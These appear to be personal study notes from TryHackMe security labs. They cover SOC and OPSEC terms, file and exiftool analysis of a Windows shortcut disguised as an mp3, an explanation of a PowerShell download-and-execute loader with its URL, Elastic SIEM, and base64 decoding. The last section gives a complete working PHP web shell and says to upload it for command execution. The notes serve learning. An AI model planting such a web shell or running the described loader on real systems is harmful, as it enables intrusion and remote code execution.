 ##### **Security Operations Center (SOC)** 
It is a team of IT security professionals tasked with monitoring, preventing , detecting , investigating, and responding to threats within a company’s network and systems.

##### Operational Security (OPSEC) 
It is a set of principals and tactics used to attempt to protect the security of an operator or operation. An example of this may be using code names instead of your real names, or using a proxy to conceal your IP address.
##### File Command
```shell-session
user@tryhackme:~$ file song.mp3
download.mp3: Audio file with ID3 version 2.3.0, contains:MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
```


```shell-session
user@tryhackme:~$ file somg.mp3
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
```

Here, MS Windows shortcut = .lnk file::

##### Exiftool
``` shell
user@tryhackme:~$ exiftool somg.mp3
``` 
![](../Attachemnts/Pasted%20image 20241208123022.png)
![](../Attachemnts/Pasted%20image 20241208130704.png)
What this PowerShell command does:

- The `-ep Bypass -nop` flags disable PowerShell's usual restrictions, allowing scripts to run without interference from security settings or user profiles.
- The `DownloadFile` method pulls a file (in this case, `IS.ps1`) from a remote server ([https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)) and saves it in the `C:\\ProgramData\\` directory on the target machine.
- Once downloaded, the script is executed with PowerShell using the `iex` command, which triggers the downloaded `s.ps1` file.

If you visit the contents of the file to be downloaded using your browser (`https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1`), you will see just how lucky we are that we are not currently using Windows.

##### ELASTIC SIEM
Elastic SIEM is a security information and event management platform that helps organizations detect, investigate, and respond to security threats. It aggregates and analyzes data from various sources to provide real-time insights and alerts on potential security incidents.
Elastic Security SIEM (Security Information and Event Management) is a product built on top of the Elastic Stack, which provides security insights and real-time threat detection. 

###### base64 commands

![](../Attachemnts/Pasted%20image 20241208144057.png)
``` shell
┌──(root㉿kali)-[~/Desktop/THM]
└─# echo SQBuAHMAdABhAGwAbAAtAFcAaQBuAGQAbwB3AHMAVQBwAGQAYQB0AGUAIAAtAEEAYwBjAGUAcAB0AEEAbABsACAALQBBAHUAdABvAFIAZQBiAG8AbwB0AA== | base64 --decode
Install-WindowsUpdate -AcceptAll -AutoReboot 
```   

###### PHP File Upload
```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```
If we add above command in a file and upload it to the website and later navigate to the uploaded directory, it gives command injection tab where we can input the commands like below:
![](../Attachemnts/Pasted%20image 20241225122355.png)
